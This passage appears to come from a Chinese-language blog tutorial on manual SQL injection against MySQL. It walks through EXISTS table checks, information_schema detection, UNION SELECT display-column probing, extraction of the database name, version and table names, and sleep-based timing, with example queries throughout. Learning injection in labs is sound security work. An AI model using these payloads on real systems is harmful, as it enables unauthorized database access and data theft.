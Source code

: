 下面我们说一下怎样判断某个数据库存不存在，我们可以用`exists`函数：

```
SELECT * FROM test.new WHERE id=1 AND EXISTS(SELECT 1 FROM admin)
```

![][20]

返回正常说明`admin`这个表存在，`MYSQL`里面是自带`information_schema`这个库的

那我们看一下存不存在`information_schema.tables`就知道这个数据库是不是`MySQL`数据库了：

![][21]

返回正常，我们通过`Union SELECT`来看哪一个列能支持显示(这里使用的是大佬教程里的图片)：

![][22]

** 这里由于我使用的环境不好只显示部分位，实际很多靶场都是有多字段只显示部分字段的情况 **

这个图就明显说明第 2 列能被显示出来，但是如果只支持显示一个查询结果很有可能后面的结果我们看不见

我们可以把前面的加一个`AND 1=2`否定掉，这样就只会显示我们后面的一条数据了：

```
SELECT * FROM test.new WHERE id=1 AND 1=2 UNION SELECT 1,2,3,4231
```

![][23]

知道了显示位之后我们就可以在显示位上搞事情了，先来查询个数据库：

```
SELECT * FROM test.new WHERE id=1 AND 1=2 UNION SELECT 1,DATABASE(),3,4231
```

![][24]

再来查询个版本：

```
SELECT * FROM test.new WHERE id=1 AND 1=2 UNION SELECT 1,VERSION(),3,4231
```

![][25]

可以看到版本号为`5.5.53`，再来查询`information_schema`数据库的所有表名：

```
SELECT * FROM test.new WHERE id=1 AND 1=2 UNION SELECT 1,table_name,3,4231 FROM information_schema.tables
```

![][26]

延时函数直接 sleep(10)就行了：

![][27]


[1]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155136.png
[2]: http://shack2.org/
[3]: https://github.com/shack2
[4]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_151559.png
[5]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152058.png
[6]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152136.png
[7]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152254.png
[8]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152356.png
[9]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152430.png
[10]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152628.png
[11]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152745.png
[12]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152824.png
[13]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_152956.png
[14]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153102.png
[15]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153214.png
[16]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_153252.png
[17]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154033.png
[18]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154125.png
[19]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154159.png
[20]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154712.png
[21]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_154752.png
[22]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155438.png
[23]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155751.png
[24]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155849.png
[25]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_155941.png
[26]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_160040.png
[27]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_160515.png
[28]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161136.png
[29]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161157.png
[30]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161218.png
[31]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161256.png
[32]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161325.png
[33]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161348.png
[34]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161518.png
[35]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161552.png
[36]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161631.png
[37]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_161653.png
[38]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_162943.png
[39]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163100.png
[40]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163130.png
[41]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163716.png
[42]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163754.png
[43]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163204.png
[44]: https://img.soapffz.com/archives_img/2019/07/28/archives_20190728_163827.png